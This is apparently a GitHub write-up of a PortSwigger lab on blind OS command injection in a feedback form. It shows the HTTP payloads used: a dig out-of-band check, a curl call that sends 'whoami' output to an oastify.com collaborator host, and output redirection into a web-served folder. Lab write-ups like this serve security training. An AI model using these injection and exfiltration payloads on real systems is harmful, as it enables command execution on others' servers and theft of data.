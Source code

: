 # [Lab: Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

## Lab

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

```path
/var/www/images/
```

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.

## Analysis

oob interaction:

```http
POST /feedback/submit HTTP/1.1

csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||dig+collaborator||
&subject=a&message=a
```

check collaborator:

![collaborator.png](./../img/lab-2-collaborator.png)

## Solutions

Solution 1:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||curl+zqt5ux98hv6q0gi102vxrr0jmas1gr4g.oastify.com+-d+`whoami`||
  &subject=a&message=a
  ```

- request to collaborator:

  ```http
  POST / HTTP/1.1

  peter-7CGZvJ
  ```

but the lab is still marked as not solved.

Solutions 2:

  ```http
  POST /feedback/submit HTTP/1.1

  csrf=ebSQsO22WEDfFwr5S41goPn5rvO5nYvk&name=a&email=x||echo+`whoami`+>+/var/www/images/test.txt||&subject=a&message=a
  ```

  ```http
  GET /image?filename=test.txt HTTP/1.1

  HTTP/1.1 200 OK

  peter-7CGZvJ
  ```

solved
